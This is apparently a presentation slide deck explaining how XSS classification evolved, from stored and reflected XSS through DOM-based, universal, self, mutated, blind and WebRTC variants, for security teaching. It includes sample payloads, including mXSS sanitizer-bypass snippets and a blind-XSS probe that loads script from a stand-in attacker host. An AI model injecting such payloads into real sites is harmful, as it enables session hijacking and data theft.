


<!-- _header: "" -->
<!-- _backgroundColor: #FF6600 -->
<!-- _paginate: false -->
# XSS classification model

Types of XSS evolution

---
<!-- class: invert -->
<!-- _header: "" -->
<!-- _paginate: false -->


---

## Early on

2 types:

- Stored XSS
- Reflected XSS

No client-side framework, no XSS-protection libraries, old web browsers without fancy features etc.

---

## Stored XSS (server-side)

a.k.a. persistent or Type 1

- stored on databases, file logs, etc.
- occurs in forum messages, comments, metadata of an object, etc.

---

## Reflected XSS (server-side)

a.k.a. non-persistent or type 2

- occurs in error messages, search results, usernames, etc.

---

## 2005

Amit Klein defined a new type of XSS:

[**DOM Based XSS**](http://www.webappsec.org/projects/articles/071105.shtml)

---

## DOM Based XSS

a.k.a. type 0

> the entire tainted data flow from source to sink takes place in the browser, i.e., the source of the data is in the DOM, the sink is also in the DOM, and the data flow never leaves the browser.

---

### DOM Based XSS

Example:

- source: URL of the page (e.g. `document.location.href`) or an element of the HTML
- sink: method call that causes the execution (e.g. `document.write`)

---

### 3 types of XSS???

- Stored XSS
- Reflected XSS
- DOM based XSS

#### Is that right?

---
<!-- _header: "" -->


---

## Overlap

DOM based = client-side XSS

- Stored XSS (server-side)
- Reflected XSS (server-side)
- DOM-based Stored XSS (client-side)
- DOM-based Reflected XSS (client-side)

Thanks to local databases, client-side frameworks, etc.

---

## 2012

> mid 2012, the research community proposed and started using two new terms:
>
> - Server XSS
> - Client XSS

---

### 2 categories - 2 types of XSS???

- Server XSS
  - Stored
  - Reflected
- Client XSS
  - Stored
  - Reflected

OWASP is still using this.

---
<!-- _header: "" -->


---

## UXSS - Universal XSS

> Attack that exploits a vulnerability in the browser or browser extensions in
> order to generate an XSS condition.

Access not only the _current session_ but also access sessions from
**all opened or cached pages** by the browser.

Works on every websites even well secured ones.

---

## UXSS - Example n°1

Vulnerability in the Adobe Acrobat extension for Internet Explorer 6 or Firefox.

Execute JS when PDF is opened --> fill form with external data

---

## UXSS - Example n°2

Flaw in the XSS filters of Internet Explorer 8.

XSS filter: alter the response before rendering the page.

Equal sign was removed by the filter but with a crafted XSS string, this logic
would cause the browser to create the XSS condition.

---

## UXSS - Example n°2

`=` --> `#`

```javascript
x onload=alert(0) x
```

⬇️

```html

```

---

## UXSS - Example n°2

```html
 
```

⬇️

```html

```

---

## UXSS - Example n°3

Flash Player UXSS Vulnerability – CVE-2011-2107.

Get access to Gmail settings and add a forwarding address, using a crafted
`.swf` file.

Attackers has access to copies of all emails received.

---

## UXSS - Example n°4

Inject malicious code into arbitrary web pages loaded in Chrome for Android via
an Intent object.

---

## 3 categories - 2 types of XSS???

- Server XSS
  - Stored
  - Reflected
- Client XSS
  - Stored
  - Reflected
 
➕

Universal XSS

---
<!-- _header: "" -->


---

## Self XSS a.k.a. auto-XSS

> The victim of the attack unknowingly runs malicious code in their own web
> browser.

Social engineering: paste in address bar (old), paste in web dev console.

Paste-jacking with overlong spaced payload: form.

---

## Introducing level of interaction

- self
- interaction
- onload

---
<!-- _header: "" -->
## 2 categories - 2 types - 3 interaction levels???

- Stored XSS
  - Client-side (DOM-based)
    - self
    - interaction
    - onload
  - Server-side
    - etc.
- Reflected XSS
  - etc.

---
<!-- _header: "" -->


---

## Now (2020) - New game

- mXSS
- bXSS
- WebRTC (p2p) XSS

---
<!-- _header: "" -->
<!-- _paginate: false -->
<!-- _color: black -->
# WTF!?!


---

## mXSS - mutated XSS

- September 26th, 2018: Closure library regression on input sanitization
- February 2019:  Masato Kinugawa found the mutated XSS
- caused by differences in how browsers interpret the HTML standard

---

## mXSS

- client-side library for XSS sanitization: **DOMPurify**
- `div` -> `innerHtml` -> executed immediately after it is assigned a value
- `template` -> `innerHtml` -> you can apply sanitization before execution
- DOMPurify -> `template` `innerHtml` -> browser interprets it (but not executes it)

---

## mXSS

```html
<div><script title="</div>">
```

⬇️

```html
<html>
<head></head>
<body>
<div>
<script title="</div>"></script>
</div>
</body>
</html>
```

---

## mXSS

```html
<script><div title="</script>">
```

⬇️

```html
<html>
<head>
<script><div title="</script>
</head>
<body>
">
</body>
</html>
```

---

## mXSS

- HTML vs JS parser
- `noscript` is interpreted differently depending on whether JavaScript is enabled in the browser or not
- invalid HTML code is interpreted differently: `template` `innerHtml` (as if JS disabled) vs `div` `innerHtml` (as if JS enabled)

---

## mXSS

```html
<noscript><p title="</noscript>">
```

⬇️ if JavaScript is **disabled**

```html
<noscript>
<p title="</noscript>"></p>
</noscript>
```

⬇️

DOMPurify: no sanitization because no JS -> no XSS

---

## mXSS

```html
<noscript><p title="</noscript>">
```

⬇️ if JavaScript is **enabled**

```html
<noscript><p title="</noscript>

"">
"
```

⬇️

XSS triggered!

---

## bXSS - Blind XSS

Where there is an XSS you can't see or know about (from the attacker POV).

probe ➡️ attacker controlled service

```html
"><script src="http://pingback.example.org"></script>
```

---

## bXSS endpoints

- Contact forms, Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box -> Administrative Panel

---

## WebRTC (p2p) XSS

- Audio / video communication in the browser
- Eg. Lync, GoToMeeting, Hangouts, Skype, Adobe Connect, WebEx, WhatsApp, FaceTime
- p2p browser connection
- JavaScript powered
- In name, file attached, etc.
- No server so must be filtered client side

---
<!-- _header: "" -->


---

## References

noraj's **XSS classification model**:

[Source](https://github.com/noraj/XSS-classification-model) - [Website](https://noraj.github.io/XSS-classification-model/)

OWASP:

[Types of XSS](https://owasp.org/www-community/Types_of_Cross-Site_Scripting) - [XSS](https://owasp.org/www-community/attacks/xss/)

---

## References

mXSS

[acunetix](https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/) - [securitum](https://research.securitum.com/dompurify-bypass-using-mxss/) - [wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting#Mutated_XSS_(mXSS)) - [cure53](https://cure53.de/fp170.pdf) - LiveOverflow [[1]](https://www.youtube.com/watch?v=lG7U3fuNw3A) [[2]](https://www.youtube.com/watch?v=gVrdE6g_fa8)

---

## References

Acunetix:

[Universal Cross-site Scripting (UXSS)](https://www.acunetix.com/blog/articles/universal-cross-site-scripting-uxss/)

ASafety:

[Élever et exploiter une Self-XSS via WYSINWYC](https://www.asafety.fr/vuln-exploit-poc/poc-xss-elever-et-exploiter-une-self-xss-via-wysinwyc/)

---

## References

bXSS

[PayloadsAllTheThings - XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)

WebRTC

[The Security of WebRTC (paper)](https://arxiv.org/pdf/1601.00184.pdf) - [WebRTC at AppSecEU 15](https://2015.appsec.eu/wp-content/uploads/2015/09/owasp-appseceu2015-desmet.pdf)

\+ in-slides references

---
<!-- _header: "" -->
<!-- _paginate: false -->
